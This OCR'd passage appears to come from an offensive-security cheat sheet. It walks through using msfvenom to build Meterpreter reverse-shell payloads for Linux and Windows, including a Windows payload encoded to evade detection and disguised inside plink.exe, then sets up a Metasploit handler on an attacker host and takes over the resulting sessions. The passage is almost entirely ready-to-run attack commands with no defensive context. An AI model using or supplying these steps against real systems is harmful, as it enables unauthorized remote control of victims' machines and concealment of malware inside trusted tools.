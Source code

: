     ./notStaged

    attacker> ls -al

### use case: Linux connect back binary with staged (e.g. meterpreter) payload

    # create binary
    msfvenom -l | grep 'linux/x86'
    msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf -o staged LHOST='192.168.30.68' LPORT=443

    # prepare handler on attacker
    msfconsole
    msf> use exploit/multi/handler
    msf> set LHOST 192.168.30.68
    msf> set LPORT 443 
    msf> exploit

    # transport binary to target and execute it
    ./staged 

    # on attacker:
    meterpreter> ?

### use case: Windows connect back binary with staged embedded payload 

```
# prepare binary
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.30.68 LPORT=443 -f exe -e x86/shikata_ga_nai -i 8 -x /usr/share/windows-binaries/plink.exe -o ./plink.exe

# prepare handler on attacker (use msf script)
cat << "EOF" > ./https-meter-handler.rc
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 192.168.30.68
set LPORT 443
set ExitOnSession false
exploit -j -z
EOF

# run script
msfconsole -r https-meter-handler.rc

# transport binary to target and execute it
plink.exe

# on attacker
sessions -v
sessions -i <id>
meterpreter> ?
```
